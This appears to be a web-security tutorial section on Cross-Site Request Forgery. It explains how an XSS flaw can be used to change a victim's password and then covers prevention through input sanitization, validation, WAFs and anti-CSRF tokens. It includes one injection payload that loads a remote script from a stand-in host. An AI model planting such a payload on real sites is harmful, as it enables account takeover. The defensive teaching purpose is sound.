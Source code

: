 
Cross-Site Request Forgery (CSRF)

The third type of front end vulnerability that is caused by unfiltered user input is Cross-Site Request Forgery (CSRF). CSRF attacks may utilize XSS vulnerabilities to perform certain queries, and API calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user. It may also utilize other vulnerabilities to perform the same functions, like utilizing HTTP parameters for attacks.

A common CSRF attack to gain higher privileged access to a web application is to craft a JavaScript payload that automatically changes the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the JavaScript CSRF payload), the JavaScript code would execute automatically. It would use the victim's logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.

CSRF can also be leveraged to attack admins and gain access to their accounts. Admins usually have access to sensitive functions, which can sometimes be used to attack and gain control over the back-end server (depending on the functionality provided to admins within a given web application). Following this example, instead of using JavaScript code that would return the session cookie, we would load a remote .js (JavaScript) file, as follows:
Code: html

"><script src=//www.example.com/exploit.js></script>

The exploit.js file would contain the malicious JavaScript code that changes the user's password. Developing the exploit.js in this case requires knowledge of this web application's password changing procedure and APIs. The attacker would need to create JavaScript code that would replicate the desired functionality and automatically carry it out (i.e., JavaScript code that changes our password for this specific web application).
Prevention

Though there should be measures on the back end to detect and filter user input, it is also always important to filter and sanitize user input on the front end before it reaches the back end, and especially if this code may be displayed directly on the client-side without communicating with the back end. Two main controls must be applied when accepting user input:
Type 	Description
Sanitization 	Removing special characters and non-standard characters from user input before displaying it or storing it.
Validation 	Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format)

Furthermore, it is also important to sanitize displayed output and clear any special/non-standard characters. In case an attacker manages to bypass front end and back end sanitization and validation filters, it will still not cause any harm on the front end.

Once we sanitize and/or validate user input and displayed output, we should be able to prevent attacks like HTML Injection, XSS, or CSRF. Another solution would be to implement a web application firewall (WAF), which should help to prevent injection attempts automatically. However, it should be noted that WAF solutions can potentially be bypassed, so developers should follow coding best practices and not merely rely on an appliance to detect/block attacks.

As for CSRF, many modern browsers have built-in anti-CSRF measures, which prevent automatically executing JavaScript code. Furthermore, many modern web applications have anti-CSRF measures, including certain HTTP headers and flags that can prevent automated requests (i.e., anti-CSRF token, or http-only/X-XSS-Protection). Certain other measures can be taken from a functional level, like requiring the user to input their password before changing it. Many of these security measures can be bypassed, and therefore these types of vulnerabilities can still pose a major threat to the users of a web application. This is why these precautions should only be relied upon as a secondary measure, and developers should always ensure that their code is not vulnerable to any of these attacks.

This Cross-Site Request Forgery Prevention Cheat Sheet from OWASP discusses the attack and prevention measures in greater detail.

